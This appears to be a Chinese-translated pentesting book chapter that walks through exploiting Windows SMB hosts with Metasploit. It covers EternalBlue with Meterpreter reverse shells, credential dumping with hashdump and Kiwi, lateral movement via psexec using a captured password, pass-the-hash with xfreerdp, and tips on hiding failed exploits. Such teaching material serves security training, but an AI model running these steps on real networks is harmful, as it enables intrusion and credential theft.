






# 获取访问权限

本章将演示使用 Kali Linux 工具（如社会工程工具包和 Metasploit）利用 Windows 漏洞的几种用例。您还将学习使用 Kali Linux 提供的利用数据库以及其他工具。您将学习使用工具来利用几种常见的 Windows 漏洞，并了解创建和实施新的利用以应对即将出现的 Windows 漏洞的准则。

我们将在本章中涵盖以下主题：

+   Pwnage

+   使用 Metasploit 利用 Windows 系统

+   使用高级足迹

# Pwnage

这里是有趣的开始。**Pwnage**！对于不了解的人来说。**Pwn**是黑客用语，意思是**拥有**。如果你被 pwned，你的系统已经被**拥有**。换句话说，我现在拥有你的系统，我完全控制它。利用是拥有或妥协机器的过程。到目前为止，我们已经通过收集目标的公共信息和扫描目标网络的漏洞来收集了有关我们目标的信息。我们现在准备进行攻击。

黑客会在最繁忙的时候攻击你的网络，并尽可能慢慢地、悄悄地进行。他们会试图保持在正常运营的噪音下。是的，在那个时候网络上有更多的眼睛，但是聪明的黑客知道，如果你慢慢地、安静地行动，大量的流量是一个很好的掩护。

如果你是安全运营人员，正在测试自己的网络，这不是一个好主意。最好在 CEO 睡觉的时候测试网络。如果在测试期间发生任何意外，可以在 CEO 醒来之前修复并使其正常工作。利用在测试期间通常不会使系统无法修复，但有些利用有时会挂起服务，或者完全挂起系统，需要重新启动。有些利用的整个目的是对服务或系统执行**拒绝服务**（**DoS**）。Bo 认为这些不是真正的利用。是的，你已经攻击了系统，并使其下线；但你没有渗透到机器里。你已经成功攻击了，但你没有控制它。真正的坏人不使用 DoS 攻击。他们想要进入，并从你的网络中窃取或复制数据。服务下线会引起 IT 的注意。如果你试图入侵，这不是一个好事。DoS 攻击是小白鼠的东西；如果这是你所知道的一切，不要自称为黑客。

DoS 工具也被认为是利用，因为它们以相同的方法作用于系统。DoS 会使系统挂起。用于获取访问权限的利用通常会使系统挂起足够长的时间，以便您注入某种代码来获取访问权限。基本上，你让机器变得愚蠢足够长的时间来建立连接。当你的利用工具失败时，它可能看起来像是一次 DoS 攻击。如果可以选择，最好让失败的利用看起来像是暂时的拒绝服务，这可能会被误解为源主机上的无辜 NIC 故障，而不是黑客在目标系统上测试利用代码。

**黑客提示**：

无论何时进行测试，始终要有人或某种方式在测试时重新启动服务或系统。在开始测试之前，始终要有人员的联系信息*当事情出错时*。尽管你可能试图保持安静，不让任何东西离线，但要有你的*计划 B*。此外，始终在测试之前准备好你的*脱离监狱*卡！

# 技术要求

+   使用 Metasploit 框架来利用 Windows 操作系统

+   高级足迹超越了简单的漏洞扫描。

+   使用枢纽来利用分段网络

# 使用 Metasploit 利用 Windows 系统

“不要害怕命令行..”

- Bo Weaver

Metasploit 框架是终极工具包。曾经有一段时间，构建一个渗透测试机器需要花费数天的时间。每个单独的利用工具都必须是以下内容：

+   追踪和研究

+   下载（有时通过拨号互联网连接）

+   从源代码编译

+   在您的破解平台上测试

现在，来自 Rapid7 的伟大人民带来了 Metasploit 框架。Metasploit 几乎为您提供了您在框架中需要的每个工具作为插件或功能。无论您在测试的网络上发现了什么操作系统甚至什么类型的设备，Metasploit 都可能有一个模块来利用它。Bo 的 90%工作都是用 Metasploit 完成的。

Metasploit 有两个版本——社区版本和专业版本。在命令行上，它们都是一样的。专业版的主要功能是一个漂亮的 Web 界面和报告工具，可以从该界面为您生成报告。您还可以获得一些用于测试大型网络的好工具，这些工具无法从命令行获得。一个功能是您可以从导入的漏洞扫描中选择一个或多个机器，专业版将自动选择模块并针对目标机器运行这些模块。如果您在大型网络上工作，或者进行大量测试，请获取专业版。它绝对物有所值，而且您可以轻松地在 Kali 攻击平台上使用它。

对于本书，我们将使用随 Kali Linux 提供的社区版本。

警告！如果您决定购买专业版，请不要卸载 Metasploit 的社区版本。这可能会破坏 Kali 的更新。安装专业版时，它将安装在自己的目录中。专业版将需要一些社区库才能运行。

在命令行使用 Metasploit 时，*Tab*键会为您自动完成很多操作。对于`show options`，输入`sh<tab> o<tab>`。您会看到这将自动完成命令。这在 Metsploit 中始终有效。

另外，要重复命令，向上箭头键将带您到先前的命令。这真的很有用。例如，当更改模块并攻击同一台机器时，`set RHOST 192.168.202.3`，向上箭头键到先前的命令可以节省时间。

好的，让我们启动 Metasploit。首先，我们需要在菜单栏中启动 Metasploit 服务。以下屏幕截图显示了 LXDE 桌面菜单。转到**Exploitation Tools** |** metasploit framework****:**



一个终端窗口将打开，服务将启动。下一个屏幕截图显示了启动时终端将向您显示的内容。Metasploit 使用 PostgreSQL 数据库服务器。在第一次运行服务时，可能需要几分钟才能启动。在下一个屏幕截图中，我们看到启动跳过初始化。Metasploit 已经在这台机器上设置好了。第一次设置后，您将看到这一点：



**是的，黑客喜欢 Shell！**

一旦服务启动，输入`msfconsole`启动 Metasploit 控制台。当我们输入`workspace`时，我们可以看到工作区。我们将很快设置一个新的工作区。

**黑客提示**：

第一次启动 Metasploit 控制台时，它将创建数据库，所以让它花点时间。下一次使用它时，它将启动得更快。

要获取控制台命令列表，请随时输入`help`：

```
    msf > help

    Core Commands
    =============

    Command Description
    ------- -----------
    ? Help menu
    banner Display an awesome metasploit banner
    cd Change the current working directory
    color Toggle color
    connect Communicate with a host
    exit Exit the console
    get Gets the value of a context-specific variable
    getg Gets the value of a global variable
    grep Grep the output of another command
    help Help menu
    history Show command history
    irb Drop into irb scripting mode
    load Load a framework plugin
    quit Exit the console
    route Route traffic through a session
    save Saves the active datastores
    sessions Dump session listings and display information about sessions
    set Sets a context-specific variable to a value
    setg Sets a global variable to a value
    sleep Do nothing for the specified number of seconds
    spool Write console output into a file as well the screen
    threads View and manipulate background threads
    unload Unload a framework plugin
    unset Unsets one or more context-specific variables
    unsetg Unsets one or more global variables
    version Show the framework and console library version numbers

    Module Commands
    ===============

    Command Description
    ------- -----------
    advanced Displays advanced options for one or more modules
    back Move back from the current context
    edit Edit the current module or a file with the preferred editor
    info Displays information about one or more modules
    loadpath Searches for and loads modules from a path
    options Displays global options or for one or more modules
    popm Pops the latest module off the stack and makes it active
    previous Sets the previously loaded module as the current module
    pushm Pushes the active or list of modules onto the module stack
    reload_all Reloads all modules from all defined module paths
    search Searches module names and descriptions
    show Displays modules of a given type, or all modules
    use Selects a module by name

    Job Commands
    ============

    Command Description
    ------- -----------
    handler Start a payload handler as job
    jobs Displays and manages jobs
    kill Kill a job
    rename_job Rename a job

    Resource Script Commands
    ========================

    Command Description
    ------- -----------
    makerc Save commands entered since start to a file
    resource Run the commands stored in a file

    Database Backend Commands
    =========================

    Command Description
    ------- -----------
    db_connect Connect to an existing database
    db_disconnect Disconnect from the current database instance
    db_export Export a file containing the contents of the database
    db_import Import a scan result file (filetype will be auto-detected)
    db_nmap Executes nmap and records the output automatically
    db_rebuild_cache Rebuilds the database-stored module cache
    db_status Show the current database status
    hosts List all hosts in the database
    loot List all loot in the database
    notes List all notes in the database
    services List all services in the database
    vulns List all vulnerabilities in the database
    workspace Switch between database workspaces

    Credentials Backend Commands
    ============================

    Command Description
    ------- -----------
    creds List all credentials in the database

```

要获取单个命令的帮助，请输入`help <command>`，如下面的屏幕截图所示。我们有两个示例显示`use`和`hosts`命令的帮助。我们有一个列表显示其用法和与命令一起使用的任何标志的解释：


首先，我们需要设置一个工作区。工作区在保持测试有序方面非常有帮助。工作区包含测试的所有收集数据，包括在利用期间收集的任何登录凭据和任何系统数据。最好将测试数据分开，以便稍后可以比较以前测试的结果。我们将设置一个名为`TestCompany-int-20180830`的项目。这是一种命名项目的方式，格式为`<client-name>-[ int（内部）| ext（外部）]-<start-date（unix-style）>`。这样可以帮助您在 6 个月后记住哪个测试是什么。

要创建新项目，请输入以下内容：

```
workspace -a TestCompany-int-20180830  
```

通过输入`workspace`，我们可以看到数据库中工作区的列表。运行命令时，您将在`TestCompany-int-20180830`工作区旁看到一个星号。这表明当您创建工作区时，您也进入了它。星号表示活动工作区。

要进入工作区，请输入以下内容：

```
workspace TestCompany-int-20180830   
```


我们可以使用`db_import`命令从扫描应用程序生成的 XML 文件中将数据从扫描中提取到工作区。所有扫描应用程序都将其数据导出到 XML，Metasploit 将自动从主要扫描应用程序导入数据：


以下是将自动导入 Metasploit 的支持的扫描类型列表：

+   Acunetix

+   Amap 日志

+   Amap 日志 -m

+   Appscan

+   Burp 会话 XML

+   Burp 问题 XML

+   CI

+   Foundstone

+   FusionVM XML

+   IP 地址列表

+   IP360 ASPL

+   IP360 XML v3

+   Libpcap 数据包捕获

+   Masscan XML

+   Metasploit PWDump 导出

+   Metasploit XML

+   Metasploit Zip 导出

+   Microsoft 基线安全分析器

+   NeXpose 简单 XML

+   NeXpose XML 报告

+   Nessus NBE 报告

+   Nessus XML（v1）

+   Nessus XML（v2）

+   NetSparker XML

+   Nikto XML

+   Nmap XML

+   OpenVAS 报告

+   OpenVAS XML

+   Outpost24 XML

+   Qualys 资产 XML

+   Qualys 扫描 XML

+   Retina XML

+   Spiceworks CSV 导出

+   Wapiti XML

您还可以使用 Nmap 导入主机、服务和网络信息，并直接将 Nmap 的输出导入 Metasploit，使用 MSFconsole 的`db_nmap`命令。此命令适用于所有正常的`nmap`命令行标志。`db_`告诉 Metasploit 导入数据。只运行`nmap`将运行扫描，但不会直接将数据导入 Metasploit。您只会看到命令的输出。

要直接导入 Nmap 扫描，请运行以下命令：

```
db_nmap -A -sV -O 172.16.42.0/24  
```

`-A`告诉`nmap`运行所有测试。`-sV`告诉 Nmap 记录任何运行服务的版本。`-O`告诉 Nmap 记录任何运行主机的操作系统。我们将看到运行扫描的输出，但这些数据也被收集到数据库中。然后我们还可以通过运行`hosts`和`services`命令来查看导入后的结果。

以下代码显示了运行这些命令的结果：

```
hosts
services  
```

使用`hosts`命令，我们可以获得所有活动 IP 地址、任何收集的机器名称和机器的操作系统的列表。通过运行服务命令，我们可以获得网络上所有运行的服务及其相关的 IP 地址列表。您可以使用`-c`标志从命令更改表列表。有关此信息的帮助，请查看帮助。


# 使用高级足迹

漏洞扫描只提供了一些信息。实际攻击机器时，您需要进行一些深层探测，以检查有用的信息泄漏。从扫描中，我们可以看到一个 Windows 域控制器和一个运行 Windows 2008 服务器的 Windows 文件服务器。两者都在运行 SMB/NetBIOS 服务。这看起来是最可能的攻击路径。SMB/NetBIOS 服务存在已知的弱点。因此，让我们更仔细地查看这些服务。

在完全进行足迹识别之前，关于笔记的一点说明。特别是在进行手动探测时，请记住记录您的输出和发现。复制/粘贴是您最好的朋友。漏洞扫描总是生成漂亮的报告，其中所有数据都编译在一个地方。手动探测不会这样，所以这取决于您，您将收集许多以后会用到的数据。使用 KeepNote，我们在第一章中首先访问的内容，*选择您的发行版*。

以下是 Bo 进行测试的正常布局。KeepNote 最好的地方在于其框架非常开放，可以根据您的喜好进行设置和使用。此设置使用以下内容：

+   找到客户公司的文件夹

+   一般项目笔记页面

+   目标文件夹

+   每个正在测试的系统的单独页面。

KeepNote 甚至带有一个不错的 **导出为 HTML** 工具，您可以使用该工具导出您的笔记，其他人可以在没有 KeepNote 的情况下阅读它们。


1.  首先，让我们使用 `nbtscan` 快速查看我们需要的域名或工作组名称以及其他基本的 NetBIOS 数据。因此，让我们打开一个新的终端窗口并运行以下命令：

```
nbtscan -v -s : 192.168.202.0/24
```

`-v` 标志用于详细模式，并将打印出所有收集到的信息。`-s :` 标志将使用冒号制表格式分隔数据：


我们可以看到域名是 `LAB1`，所有计算机都是该域的成员。我们以后会需要这些信息。

1.  回到 MSFconsole 窗口，运行以下命令：

```
msf> search smb  
```

我们得到了与 SMB 服务相关的所有模块的列表。这是扫描、探测、利用和后利用模块的列表。首先，我们将检查是否有共享目录，并检查访客帐户是否有任何权限。我们选择 `auxiliary/scanner/smb/smb_enumshares`。您可以通过按 *Ctrl* + *Shift* + *C* 选择文本并复制它，然后可以使用 *Ctrl* + *Shift* +*V* 粘贴：


1.  要使用该模块，请运行以下命令：

```
use auxiliary/scanner/smb/smb_enumshares  
```

这将使您进入模块。我们使用此模块的方式是使用所有模块的正常方式。不同模块的配置可能会改变进入模块的操作，但配置是相同的。

1.  与使用 `use` 命令进入模块的方式相反，`use` 命令用于打开任何模块。要退出模块，请输入以下命令：

```
back  
```

这将带您回到 MSF 提示符。

1.  运行以下命令：

```
info auxiliary/scanner/smb/smb_enumshares  
```

使用此命令，我们可以查看有关模块的信息和帮助信息，而无需实际进入模块。

1.  进入模块后，输入以下命令：

```
show options  
```

这将显示模块的可用参数。使用此模块，我们需要设置要探测的域名和用户帐户的主机。通过使用空的 `SMBUser` 帐户运行此模块，您可以检查 `Everyone` 组是否具有任何权限。将其设置为 `Guest` 将检查访客帐户是否已启用，并将检查 `Everyone` 组。

请注意，我们有一个名为 `RHOSTS` 的参数。这是设置要探测的主机的参数。这是一个扫描器模块，因此参数是复数形式，可以接受网络范围或单个主机。

1.  通过输入以下命令设置配置：

```
set RHOSTS 192.168.202.3
set SMBDomain LAB1
set SMBUser Guest
show options  
```

`show options` 将再次显示配置，因此您可以在运行扫描之前检查它：


# 解释扫描并根据结果进行构建

在以下截图中，我们可以通过输入以下命令查看扫描结果：

```
exploit  
```

我们可以看到扫描失败了，但给了我们宝贵的信息。首先，通过扫描失败，我们现在知道没有共享对 Everyone 组是开放的。通过响应，我们可以看出服务是活跃的，但拒绝连接。其次，我们可以看到，事实上，访客账户被禁用了。有人可能会说这没有任何进展，但从中我们已经确定了服务是活跃的，并接受来自我们 IP 地址的连接。这对我们下一步行动是重要信息：


SMB 服务使用 RPC 管道传输信息，RPC 服务有时会泄露系统信息，所以让我们看看我们得到了什么。为了做到这一点，我们将使用 DCERPC Pipe Auditor 模块：

```
use auxiliary/scanner/smb/pipe_dcerpc_auditor
show options  
```

在以下代码中，我们看到了模块配置。我们可以使用箭头键向上箭头到之前模块的配置，并设置`SMBDomain`和`RHOSTS`设置：

```
set SMBDomain LAB1
set RHOSTS 192.168.202.3
show options
exploit  
```



看起来我们的 SMB 服务被很好地锁定了。我们马上就会看到。

通过之前的扫描，我们可以看出这台机器已经有一段时间没有打补丁了。另外从我们的网络足迹，我们知道这是一个 Windows 2008 服务器，所以这排除了使用早于 2008 年的漏洞利用。我们还可以从我们的探针中得知服务器配置存在弱点。我们需要一个能绕过这些障碍的漏洞利用。

选择合适的漏洞利用是经验和反复尝试的问题。并非所有的漏洞利用都有效，有些可能需要多次尝试才能成功攻击系统。有些有时有效，然后在下一次尝试时失败。如果一开始没有成功，不要放弃。

在以下代码中，我们选择了`auxiliary/scanner/smb/smb_ms17_010`。这将检查系统是否容易受到 NSA 的方程式组织通过 Shadow Brokers 泄露的漏洞利用的攻击。这些漏洞利用包括 EnernalBlue、EternalRomance、EternalChampion 和 EternalSynergy。这些漏洞利用也是广为人知的勒索软件病毒 Wanacry 和 Petya 的基础，这些病毒曾在互联网上的许多网络中造成严重破坏。这些漏洞利用是攻击向量，用于获取访问权限、上传和运行有效载荷，加密受感染机器的驱动器。稍后，我们将使用这些漏洞利用来完成相同的任务，但是，我们不会破坏数据，而是窃取系统信息和用户凭据。所以，让我们扫描一下，看看我们的网络上是否有易受攻击的主机。要使用这个扫描工具，输入以下命令：

```
use auxiliary/scanner/smb/smb_ms17_010  
```

这将让你进入模块。要查看所需的选项，输入以下命令：

```
show options 
```

然后你会看到以下选项：

```
Module options (auxiliary/scanner/smb/smb_ms17_010):

Name Current Setting Required Description
---- --------------- -------- -----------
CHECK_ARCH true no Check for architecture on vulnerable hosts
CHECK_DOPU true no Check for DOUBLEPULSAR on vulnerable hosts
CHECK_PIPE false no Check for named pipe on vulnerable hosts
NAMED_PIPES /usr/share/metasploit-framework/data/wordlists/named_pipes.txt yes List of named pipes to check
RHOSTS yes The target address range or CIDR identifier
RPORT 445 yes The SMB service port (TCP)
SMBDomain . no The Windows domain to use for authentication
SMBPass no The password for the specified username
SMBUser no The username to authenticate as
THREADS 1 yes The number of concurrent threads  
```

我们需要设置一些选项来运行这个：

```
set RHOST 172.16.42.0/24 # This sets the target network
set SMBDomain LAB1 # We gained this information earlier.
set THREADS 5 # This will speed up the scan checking 5 hosts at a time.
```

然后设置以下内容：

```
exploit # To run the scan.  
```

当我们查看结果时，似乎我们有很多易受攻击的主机可供选择，如下截图所示：


很多易于攻击的目标。让我们挑一些。通过运行`ms10_010`的搜索，我们将找到与此漏洞相关的漏洞利用：

```
search ms17_010  
```

你会看到以下的漏洞利用：



我们有来自同一框架的三个漏洞利用。`ms17_010_eternalblue`漏洞利用在 64 位系统上效果最好。实际上，如果你输入 show payloads，你会发现只有 x64 payloads 被显示出来。我曾经使用 x32 位 payloads，并成功在 32 位系统上运行，但这可能会导致 32 位系统挂起，导致蓝屏或重启。

`ms17_010_psexec`漏洞利用在 32 位系统上效果最好。`ms17_010_eternalblue_win8`漏洞利用在 Win8 和 Win10 系统上效果最好。这个漏洞利用还可以绕过这些系统上的 ASLR 保护。

我发现这些漏洞在域控制器上效果不佳。这很可能是因为域控制器期望 Active Directory 登录凭据，并且无法允许连接到 SMB 服务。最好选择另一台服务器，然后横向移动到域控制器。这将是我们的攻击策略。

从之前的扫描中，我们发现有一个易受攻击的 64 位系统，BO-SRV3。我们将使用`ms17_010_eternalblue`漏洞利用来妥协这个系统。使用以下代码加载模块：

```
use exploit/windows/smb/ms17_010_eternalblue
show options # to show the options  
```

对于选项，您需要加载以下内容：

```
set RHOST 172.16.42.7
set SMBDomain LAB1
```

要查看可用的有效载荷，请输入以下命令：

```
show payloads  
```

我们将使用以下内容：

```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.42.140 # This will be kali's IP address
show options # To check your set up  
```

如果一切看起来正常，我们会得到以下结果：

```
exploit  
```

中了！我们赢了！我们看到漏洞利用成功运行，我们有了一个 Meterpreter shell：


运行以下命令，我们可以看到我们远程连接到了具有完整系统级访问权限的系统：

```
sysinfo # This shows the system's information
getuid # This will show the user access level
ipconfig # Shows the IP address of the compromised system.  
```


是时候抢劫和掠夺了：

```
hashdump  
```

在下面的截图中，我们看到我们已经倒出了本地哈希：


所以我们有本地管理员的哈希。很可能这也是域控制器和其他主机上的本地管理员，但让我们也倒一些 Active Directory 信息。为了做到这一点，我们需要加载 Kiwi 工具包：

```
load kiwi
```

要查看命令，请随时输入`help`。以下是 Kiwi 命令列表：

```
Kiwi Commands
=============
Command Description
------- -----------
creds_all Retrieve all credentials (parsed)
creds_kerberos Retrieve Kerberos creds (parsed)
creds_msv Retrieve LM/NTLM creds (parsed)
creds_ssp Retrieve SSP creds
creds_tspkg Retrieve TsPkg creds (parsed)
creds_wdigest Retrieve WDigest creds (parsed)
dcsync Retrieve user account information via DCSync (unparsed)
dcsync_ntlm Retrieve user account NTLM hash, SID and RID via DCSync
golden_ticket_create Create a golden kerberos ticket
kerberos_ticket_list List all kerberos tickets (unparsed)
kerberos_ticket_purge Purge any in-use kerberos tickets
kerberos_ticket_use Use a kerberos ticket
kiwi_cmd Execute an arbitary mimikatz command (unparsed)
lsa_dump_sam Dump LSA SAM (unparsed)
lsa_dump_secrets Dump LSA secrets (unparsed)
password_change Change the password/hash of a user
wifi_list List wifi profiles/creds for the current user
wifi_list_shared List shared wifi profiles/creds (requires SYSTEM)  
```

使用`creds_all`命令将获得`msv`、`wdigest`、`tspkg`和`kerberos`凭据。基本上是对机器上所有保存或存储的凭据的转储。请注意，我们从最近登录到系统的域用户那里捕获了明文域凭据：



所以一个已完成，有了攻击域控制器的凭据。

输入以下内容以退出 Meterpreter 会话而不关闭会话：

```
background
sessions # This will show you the session is still running.  
```


# 利用 32 位系统

在之前的部分中，我们使用标准的 EternalBlue 漏洞攻击了 64 位机器。现在让我们使用`psexec`模块来妥协 32 位系统。我们使用这个模块，因为我们从上次的利用中收集了凭据。这次我们要攻击网络上的一个工作站。工作站通常被很多不同的人使用，所以这台机器上应该有很多存储的凭据。我们拥有的凭据越多，我们的访问权限就越大。要使用这个模块，请输入以下内容：

```
use exploit/windows/smb/psexec
show options # To see the module's options.  
```

我们需要加载与之前相同的选项，但我们将攻击`172.16.42.173 \\WIN7-01`：

```
set RHOST 172.16.42.173 # Set the victim host.
set SMBDomain LAB1 # Set the domain.
set SMBUser fflintstone # The captured username
set SMBPass CatKeeper! # The captured clear text credentials (This can be a hash!)
show options # To check your settings.  
```

接下来，我们需要选择有效载荷，因此运行以下命令以查看可用的有效载荷：

```
show payloads  
```

在上一个利用中，当我们运行此命令时，我们只看到 64 位有效载荷。这次，我们看到可以选择 32 位和 64 位有效载荷。WIN7-01 是 32 位的，所以我们需要选择正确的有效载荷：

```
set PAYLOAD windows/meterpreter/reverse_tcp 
```

您会注意到这是相同类型的反向 TCP 有效载荷，但在其命令行中不显示 x64。这是 32 位系统的有效载荷。

如果您之前没有全局设置`LHOST`（您的 Kali 机器），现在需要设置它：

```
set LHOST 172.16.42.140 # This sets the local host. Use setg to set this value globally. 
```

**黑客提示**：

Metasploit 将自动尝试设置`LHOST`接口以进行利用。如果 Kali 机器连接到两个或更多网络，这可能会导致问题。利用处理程序可能连接到错误的网络，导致利用失败。通常，在运行 Metasploit 时，进入我的工作区后，我会全局设置`LHOST`接口，使用`setg`全局选项设置到本地主机。

再次运行`show options`命令，我们可以看到攻击远程主机的正确设置：


在下面的截图中，我们还看到我们在本地机器上的处理程序设置正确：


接下来，运行以下命令：

```
exploit  
```

哎呀！我们又有一个主机被入侵，获得了完整的系统级访问权限。

运行以下命令：

```
sysinfo # This shows the system's information.
getuid # This shows the level of access to the system.
hashdump # To dump the local hashes and user accounts.
load kiwi # To load the Kiwi Toolset.  
```



再次加载 Kiwi 后，我们运行`creds_all`命令并在系统上转储所有保存或存储的凭据，包括系统和域凭据。

在这两个系统之间，我们现在有足够的凭据，我们知道现在可以毫无问题地接管域控制器。

# 使用 Xfreerdp 访问系统

**Xfreerdp**是 Kali 上用于使用 RDP 协议访问 Windows 系统的 RDP 客户端。当运行 Linux 时，Rdesktop 是默认的普通 RDP 客户端。 Xfreerdp 具有一些黑客喜欢的很酷的功能。使用 Rdesktop，您必须使用明文密码。使用 Xfreerdp，您可以运行*传递哈希*攻击，并在不必破解捕获的哈希的情况下访问 Windows 远程桌面会话。 Xfreerdp 是从命令行运行的，没有 GUI 界面。

您可以通过输入以下内容获取支持的选项的完整列表：

```
xfreerdp -help  
```

以下是帮助文件和支持的选项的副本：

```
FreeRDP - A Free Remote Desktop Protocol Implementation See www.freerdp.com for more information Usage: xfreerdp [file] [options] [/v:<server>[:port]] Syntax: /flag (enables flag) /option:<value> (specifies option with value) +toggle -toggle (enables or disables toggle, where '/' is a synonym of '+') /a:<addin>[,<options>] Addin /action-script:<file-name> Action script /admin Admin (or console) session +aero Enable desktop composition (default:off) /app:<path> or ||<alias> Remote application program /app-cmd:<parameters> Remote application command-line parameters /app-file:<file-name> File to open with remote application /app-guid:<app-guid> Remote application GUID /app-icon:<icon-path> Remote application icon for user interface /app-name:<app-name> Remote application name for user interface /assistance:<password> Remote assistance password +async-channels Asynchronous channels (experimental) (default:off) +async-input Asynchronous input (default:off) +async-transport Asynchronous transport (experimental) (default:off) +async-update Asynchronous update (default:off) /audio-mode:<mode> Audio output mode +auth-only Authenticate only (default:off) -authentication Authentication (expermiental) (default:on) +auto-reconnect Automatic reconnection (default:off) /auto-reconnect-max-retries:... Automatic reconnection maximum retries, 0 for unlimited [0,1000] -bitmap-cache Enable bitmap cache (default:on) /bpp:<depth> Session bpp (color depth) /buildconfig Print the build configuration /cert-ignore Ignore certificate /cert-name:<name> Certificate name /cert-tofu Automatically accept certificate on first connect /client-hostname:<name> Client Hostname to send to server -clipboard Redirect clipboard (default:on) /codec-cache:rfx|nsc|jpeg Bitmap codec cache -compression Enable compression (default:on) /compression-level:<level> Compression level (0,1,2) +credentials-delegation Disable credentials delegation (default:off) /d:<domain> Domain -decorations Window decorations (default:on) /disp Display control /drive:<name>,<path> Redirect directory <path> as named share <name> +drives Redirect all mount points as shares (default:off) /dvc:<channel>[,<options>] Dynamic virtual channel /dynamic-resolution Send resolution updates when the window is resized /echo Echo channel -encryption Encryption (experimental) (default:on) /encryption-methods:... RDP standard security encryption methods /f Fullscreen mode (<Ctrl>+<Alt>+<Enter> toggles fullscreen) -fast-path Enable fast-path input/output (default:on) +fipsmode Enable FIPS mode (default:off) +fonts Enable smooth fonts (ClearType) (default:off) /frame-ack:<number> Number of frame acknowledgement /from-stdin[:force] Read credentials from stdin. With <force> the prompt is done before connection, otherwise on server request. /g:<gateway>[:<port>] Gateway Hostname /gateway-usage-method:direct|detect Gateway usage method /gd:<domain> Gateway domain /gdi:sw|hw GDI rendering /geometry Geometry tracking channel +gestures Consume multitouch input locally (default:off) /gfx[:RFX|AVC420|AVC444] RDP8 graphics pipeline (experimental) /gfx-h264[:AVC420|AVC444] RDP8.1 graphics pipeline using H264 codec +gfx-progressive RDP8 graphics pipeline using progressive codec (default:off) +gfx-small-cache RDP8 graphics pipeline using small cache mode (default:off) +gfx-thin-client RDP8 graphics pipeline using thin client mode (default:off) +glyph-cache Glyph cache (experimental) (default:off) /gp:<password> Gateway password -grab-keyboard Grab keyboard (default:on) /gt:rpc|http|auto Gateway transport type /gu:... Gateway username /gat:<access token> Gateway Access Token /h:<height> Height +heartbeat Support heartbeat PDUs (default:off) /help Print help +home-drive Redirect user home as share (default:off) /ipv6 Prefer IPv6 AAA record over IPv4 A record /jpeg Enable JPEG codec /jpeg-quality:<percentage> JPEG quality /kbd:0x<id> or <name> Keyboard layout /kbd-fn-key:<value> Function key value /kbd-list List keyboard layouts /kbd-subtype:<id> Keyboard subtype /kbd-type:<id> Keyboard type /load-balance-info:<info-string> Load balance info /log-filters:... Set logger filters, see wLog(7) for details /log-level:... Set the default log level, see wLog(7) for details /max-fast-path-size:<size> Specify maximum fast-path update size /max-loop-time:<time> Specify maximum time in milliseconds spend treating packets +menu-anims Enable menu animations (default:off) /microphone[:...] Audio input (microphone) /monitor-list List detected monitors /monitors:<id>[,<id>[,...]] Select monitors to use -mouse-motion Send mouse motion (default:on) /multimedia[:...] Redirect multimedia (video) /multimon[:force] Use multiple monitors +multitouch Redirect multitouch input (default:off) +multitransport Support multitransport protocol (default:off) -nego Enable protocol security negotiation (default:on) /network:... Network connection type /nsc Enable NSCodec -offscreen-cache Enable offscreen bitmap cache (default:on) /orientation:0|90|180|270 Orientation of display in degrees /p:<password> Password /parallel[:<name>[,<path>]] Redirect parallel device /parent-window:<window-id> Parent window id +password-is-pin Use smart card authentication with password as smart card PIN (default:off) /pcb:<blob> Preconnection Blob /pcid:<id> Preconnection Id /pheight:<height> Physical height of display (in millimeters) /play-rfx:<pcap-file> Replay rfx pcap file /port:<number> Server port +print-reconnect-cookie Print base64 reconnect cookie after connecting (default:off) /printer[:<name>[,<driver>]] Redirect printer device /proxy:[<proto>://]<host>:<port> Proxy (see also environment variable below) /pth:<password-hash> Pass the hash (restricted admin mode) /pwidth:<width> Physical width of display (in millimeters) /reconnect-cookie:<base64-cookie> Pass base64 reconnect cookie to the connection /restricted-admin Restricted admin mode /rfx RemoteFX /rfx-mode:image|video RemoteFX mode /scale:100|140|180 Scaling factor of the display /scale-desktop:<percentage> Scaling factor for desktop applications (value between 100 and 500) /scale-device:100|140|180 Scaling factor for app store applications /sec:rdp|tls|nla|ext Force specific protocol security +sec-ext NLA extended protocol security (default:off) -sec-nla NLA protocol security (default:on) -sec-rdp RDP protocol security (default:on) -sec-tls TLS protocol security (default:on) /serial[:...] Redirect serial device /shell:<shell> Alternate shell /shell-dir:<dir> Shell working directory /size:... Screen size /smart-sizing[:<width>x<height>] Scale remote desktop to window size /smartcard[:<name>[,<path>]] Redirect smartcard device /sound[:...] Audio output (sound) /span Span screen over multiple monitors /spn-class:<service-class> SPN authentication service class /ssh-agent SSH Agent forwarding channel /t:<title> Window title -themes Enable themes (default:on) /tls-ciphers:netmon|ma|ciphers Allowed TLS ciphers -toggle-fullscreen Alt+Ctrl+Enter toggles fullscreen (default:on) /u:... Username +unmap-buttons Let server see real physical pointer button (default:off) /usb:... Redirect USB device /v:<server>[:port] Server hostname /vc:<channel>[,<options>] Static virtual channel /version Print version /video Video optimized remoting channel /vmconnect[:<vmid>] Hyper-V console (use port 2179, disable negotiation) /w:<width> Width -wallpaper Enable wallpaper (default:on) +window-drag Enable full window drag (default:off) /wm-class:<class-name> Set the WM_CLASS hint for the window instance /workarea Use available work area Examples: xfreerdp connection.rdp /p:Pwd123! /f xfreerdp /u:CONTOSO\JohnDoe /p:Pwd123! /v:rdp.contoso.com xfreerdp /u:JohnDoe /p:Pwd123! /w:1366 /h:768 /v:192.168.1.100:4489 xfreerdp /u:JohnDoe /p:Pwd123! /vmconnect:C824F53E-95D2-46C6-9A18-23A5BB403532 /v:192.168.1.100 Clipboard Redirection: +clipboard Drive Redirection: /drive:home,/home/user Smartcard Redirection: /smartcard:<device> Serial Port Redirection: /serial:<name>,<device>,[SerCx2|SerCx|Serial],[permissive] Serial Port Redirection: /serial:COM1,/dev/ttyS0 Parallel Port Redirection: /parallel:<name>,<device> Printer Redirection: /printer:<device>,<driver> Audio Output Redirection: /sound:sys:oss,dev:1,format:1 Audio Output Redirection: /sound:sys:alsa Audio Input Redirection: /microphone:sys:oss,dev:1,format:1 Audio Input Redirection: /microphone:sys:alsa Multimedia Redirection: /multimedia:sys:oss,dev:/dev/dsp1,decoder:ffmpeg Multimedia Redirection: /multimedia:sys:alsa USB Device Redirection: /usb:id,dev:054c:0268 For Gateways, the https_proxy environment variable is respected: export https_proxy=http://proxy.contoso.com:3128/ xfreerdp /g:rdp.contoso.com ... More documentation is coming, in the meantime consult source files  
```

